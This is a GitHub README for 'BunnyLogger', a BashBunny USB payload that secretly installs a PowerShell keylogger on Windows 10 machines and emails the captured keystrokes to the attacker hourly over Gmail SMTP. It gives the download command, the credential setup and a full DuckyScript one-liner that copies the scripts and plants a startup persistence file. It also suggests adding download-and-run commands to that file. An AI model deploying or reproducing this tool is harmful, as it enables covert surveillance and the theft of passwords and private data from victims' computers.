 # Bunny Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
__________                           .____                                      
\______   \__ __  ____   ____ ___.__.|    |    ____   ____   ____   ___________ 
 |    |  _/  |  \/    \ /    <   |  ||    |   /  _ \ / ___\ / ___\_/ __ \_  __ \
 |    |   \  |  /   |  \   |  \___  ||    |__(  <_> ) /_/  > /_/  >  ___/|  | \/
 |______  /____/|___|  /___|  / ____||_______ \____/\___  /\___  / \___  >__|   
        \/           \/     \/\/             \/    /_____//_____/      \/         
```

## Overview:
```
BunnyLogger is a BashBunny payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=z8KD9zU50xc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Download:
```bash
svn checkout https://github.com/CosmodiumCS/payloads/trunk/bashbunny/BunnyLogger
```

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 7 of *duckyscript.txt*, change 'switch1' to whatever switch you use
3. in line 7 of *duckyscript.txt*, change 'BashBunny' to the name of your BashBunny
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
